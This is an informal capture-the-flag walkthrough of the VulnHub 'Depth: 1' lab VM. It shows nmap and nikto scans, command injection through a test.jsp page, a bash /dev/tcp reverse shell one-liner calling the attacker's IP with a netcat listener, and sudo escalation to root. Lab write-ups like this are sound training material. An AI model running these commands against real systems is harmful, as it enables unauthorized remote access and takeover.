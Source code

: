 # DEPT1

lets begin dig in,,,,,,,,,,,,,,,,

About Release
Back to the Top
Name: Depth: 1
Date release: 27 Oct 2017
Author: Dan Lawson
Series: Depth
Web page: https://depthsecurity-my.sharepoint.com/personal/dlawson_depthsecurity_com/_layouts/15/guestaccess.aspx?docid=1ed416c7a2c4640c3bc2bfcb64e5a9823&authkey=AYzxAjGDCvY90H355bLzTTo
Description
Back to the Top
Many times while conducting a pentest, I need to script something up to make my life easier or to quickly test an attack idea or vector. Recently I came across an interesting command injection vector on a web application sitting on a client's internet-facing estate. There was a page, running in Java, that allowed me to type arbitrary commands into a form, and have it execute them. While developer-provided webshells are always nice, there were a few caveats. The page was expecting directory listing style output, which was then parsed and reformatted. If the output didn't match this parsing, no output to me. Additionally, there was no egress. ICMP, and all TCP/UDP ports including DNS were blocked outbound.

I was still able to leverage the command injection to compromise not just the server, but the entire infrastructure it was running on. After the dust settled, the critical report was made, and the vulnerability was closed, I thought the entire attack path was kind of fun, and decided to share how I went about it. Since I enjoy being a free man and only occasionally visit prisons, I've created a simple boot2root style VM that has a similar set of vulnerabilities to use in a walkthrough.

MD5: 47975764E3A6AAD07749C35072C1B025
SHA1: 6516163F84ACDDD846981C94262EC3538A18970E


lets begin enumeration::::::
  nmap_------
  # Nmap 7.94SVN scan initiated Sun Sep 15 13:14:16 2024 as: nmap -sV -sC -Pn -oN nmap 192.168.73.144
Nmap scan report for 192.168.73.144
Host is up (0.00024s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
MAC Address: 00:0C:29:29:4E:C1 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 15 13:14:32 2024 -- 1 IP address (1 host up) scanned in 16.11 seconds

 
 
 
 
 
 ***NIKTO  is a pluggable web server and CGI scanner written in Perl, using rfp’s LibWhisker to perform fast security or informational checks.




nikto -h http://192.168.73.144:8080/


- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.73.144
+ Target Hostname:    192.168.73.144
+ Target Port:        8080
+ Start Time:         2024-09-16 01:57:30 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache-Coyote/1.1
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a differe: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS .
+ HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
+ HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
+ /: Appears to be a default Apache Tomcat install.
+ /manager/html: Default Tomcat Manager / Host Manager interface found.
+ /test.jsp: This might be interesting.
+ /manager/status: Default Tomcat Server Status interface found.
+ 8254 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2024-09-16 01:57:45 (GMT5.5) (15 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested



 /test.jsp: This might be interesting.  might hide something so search it on url as http://192.168.73.144:8080/test.jsp

 
 listing out for user name
 
 Command: ls -l /home

Owner	Group	Size	Filename
bill 	bill 	4096 	bill


 so then i list out the tmp folder
 
 
 Command: ls -l /tmp

Owner	Group	Size	Filename
tomcat8 	tomcat8 	4096 	hsperfdata_tomcat8
root 	root 	4096 	systemd-private-70a6d11547824f1ba12a1cc1dd61b2af-systemd-resolved.service-W9Wr87
root 	root 	4096 	systemd-private-70a6d11547824f1ba12a1cc1dd61b2af-systemd-timesyncd.service-yZfQxx
tomcat8 	root 	4096 	tomcat8-tomcat8-tmp
root 	root 	4096 	vmware-root 



no-w i've to generate reverse shell using reverse shell genaretor:::::::
ssh bill@localhost sudo bash -i >& /dev/tcp/192.168.73.129/4242 0>&1  {get it form online reverse shell generator}
using netcat  for nc -lvp 4242

::::::::getting the shell:::Boooooyahhhhhhhhhh:""""::: 


THEn i simply use sudo -l for take a look on permissions 
Matching Defaults entries for root on b2r:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User root may run the following commands on b2r:
    (ALL : ALL) ALL
root@b2r:~# sudo  su 
then go to that root folder
the i successfully get the flag
which is ::
::::::::::::::::::::::::::::::flag{WellThatWasEasy}:::::::::::::::::::::::::::::

 that's went quiet  easy DEPTH1---VULNHUB





  
















